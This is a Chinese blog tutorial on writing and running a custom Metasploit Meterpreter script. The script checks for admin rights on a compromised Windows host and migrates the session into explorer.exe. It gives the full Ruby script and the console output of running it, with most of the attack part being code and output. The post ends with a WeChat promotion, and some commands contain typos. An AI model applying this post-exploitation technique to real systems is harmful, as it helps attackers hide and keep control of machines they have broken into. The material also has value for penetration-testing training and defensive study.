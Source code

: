 ```yaml
---
layout: post
category: curleyg-code-hack
title: Metasploit制作并运行自定义Meterpreper脚本
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: Metasploit制作并运行自定义Meterpreper脚本
lock: need
---
```


# Metasploit制作并运行自定义Meterpreper脚本

注意：运行此脚本的前提是我们已经经过一系列的渗透，成功拿下了Meterpreter命令行。

这个脚本将会检查我们当前用户是否为管理员用户，然后找到explorer.exe进程，并自动迁移到这个进程中。

具体脚本mymet.rb如下：

```
##
# Author 冰河
# Date 2019-01-14
# Description Meterpreter脚本实例，检查 我们当前是否为管理员用户，然后找到exeplorer进程，并自动迁移到这个进程中
##
admin_check=is_admin?
if(admin_check)
  print_good("Current User Is Admin")
else
  print_error("Current User Is Not Admin")
end

session.sys.process.get_processes().each do |x|
  if x['name'].downcase == "explorer.exe"
    print_good("Explorer.exe Process is Running with PID #{x['pid']}")
    explorer_ppid = x['pid'].to_i
    print_good("Migrating to Exeplorer.exe at PID #{explorer_ppid.to_s}")
    session.core.migrate(explorer_ppid)
  end
end
```

接下来，我们将脚本mymet.rb上传到Kali的/usr/share/metasploit-framework/scripts/meterpreter目录下。

首先，我们现在Meterpreter上执行如下命令：

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
meterpreter > getpid
Current pid: 684
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
2208  2168  explorer.exe       x64   1        liuyazhuang-PC\liuyazhuang    C:\Windows\explorer.exe
```

可以看到当前的用户是管理员权限，当前session绑定的进程ID是684，explorer进程ID为2208

接下来我们在Meterpreter命令行下运行如下命令：

```
run myset
```

输出如下：

```
meterpreter > run mymet 
[+] Current User Is Admin
[+] Explorer.exe Process is Running with PID 2208
[+] Migrating to Exeplorer.exe at PID 2208
```

如下：

![img](https://img-blog.csdnimg.cn/20190115160713658.png)

可以看到，命令成功运行

此时我们再次查看当前session绑定的PID

```
meterpreter > getpid
Current pid: 2208
```

可以看到当前session已经绑定到explorer.exe进程了。

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)

